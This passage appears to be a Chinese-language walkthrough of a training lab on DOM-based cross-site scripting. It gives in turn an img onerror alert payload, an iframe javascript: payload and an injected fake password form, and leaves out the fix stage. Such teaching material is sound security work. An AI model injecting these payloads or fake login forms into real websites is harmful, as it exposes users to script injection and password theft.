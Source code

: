 在输入框输入

```
<img src=”images/logos/owasp.jpg” />
```

点击按钮

![image]({path}/15.png)

![image]({path}/16.png)

### 阶段2：现在，尝试使用image标签创建JavaScript警报

在输入框输入

```
<img src=test onerror=”alert(‘this is xss test’)”>
```

点击按钮即可

![image]({path}/17.png)

![image]({path}/18.png)


### 阶段3：接下来，尝试使用IFRAME标签创建JavaScript警报。

在输入框输入

```
<iframe src=javascript:alert(0)></iframe>
```

点击按钮即可

![image]({path}/19.png)

![image]({path}/20.png)

### 阶段4：使用以下命令创建假登录表单：


```
Please enter your password:<BR><input type = "password" name="pass"/><button onClick="javascript:alert('I have your password: ' + pass.value);">Submit</button><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR>
```

![image]({path}/21.png)

![image]({path}/22.png)

## 阶段5：执行客户端HTML实体编码以减轻DOM (修复漏洞，省略)
